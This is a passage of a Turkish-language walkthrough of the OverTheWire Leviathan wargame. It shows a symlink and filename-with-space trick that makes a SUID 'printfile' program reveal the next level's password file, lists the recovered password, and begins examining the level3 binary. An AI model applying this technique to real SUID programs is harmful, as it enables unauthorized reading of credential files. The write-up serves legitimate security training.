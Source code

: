     - `mktemp -d` ile yeni bir temp dizin oluşturalım ve `cd` ile oraya gidelim. benim dizinim burası: `/tmp/tmp.rc5u3EPBZR`. isim farklı olabilir.

    - `symlink space` adında bir dosya oluşturalım: `touch symlink\ space`

    - symlink oluşturalım: `ln -s /etc/leviathan_pass/leviathan3 symlink`

    - izin sorunları yaşamamak için bulunduğumuz dizine tüm izinleri verelim: `chmod 777 . && ls -la`

        ```bash
        leviathan2@gibson:/tmp/tmp.rc5u3EPBZR$ ls -la
        total 24
        drwxrwxrwx   2 leviathan2 leviathan2  4096 Jun 14 03:10 .
        drwxrwx-wt 487 root       root       20480 Jun 14 03:15 ..
        lrwxrwxrwx   1 leviathan2 leviathan2    30 Jun 14 03:08 symlink -> /etc/leviathan_pass/leviathan3
        -rw-rw-r--   1 leviathan2 leviathan2     0 Jun 14 03:10 symlink space
        leviathan2@gibson:/tmp/tmp.rc5u3EPBZR$ 
        ```

    - programı çalıştıralım: `~/printfile symlink\ space`

        ```bash
        leviathan2@gibson:/tmp/tmp.rc5u3EPBZR$ ~/printfile symlink\ space
        f0n8h2iWLP
        /bin/cat: space: No such file or directory
        leviathan2@gibson:/tmp/tmp.rc5u3EPBZR$ 
        ```

    - yeni parola: `f0n8h2iWLP`

### Leviathan Level 3 -> 4

- ssh ile bağlanalım: `ssh leviathan3@leviathan.labs.overthewire.org -p 2223`

- önceki seviyede bulduğumuz parolayı girelim: `f0n8h2iWLP`

- `ls -la` ile listeleyince adı `level3` olan bir `SUID` dosya gördük.

    ```bash
    leviathan3@gibson:~$ ls -la
    total 40
    drwxr-xr-x  2 root       root        4096 Jun 11 21:30 .
    drwxr-xr-x 83 root       root        4096 Jun 11 21:32 ..
    -rw-r--r--  1 root       root         220 Mar 31 08:41 .bash_logout
    -rw-r--r--  1 root       root        3771 Mar 31 08:41 .bashrc
    -r-sr-x---  1 leviathan4 leviathan3 18096 Jun 11 21:30 level3
    -rw-r--r--  1 root       root         807 Mar 31 08:41 .profile
    leviathan3@gibson:~$ 
    ```

- Parola korumalı dosya:

    ```bash
    leviathan3@gibson:~$ ./level3 
    Enter the password> fr0stb1rd
    bzzzzzzzzap. WRONG
    leviathan3@gibson:~$ 
    ```
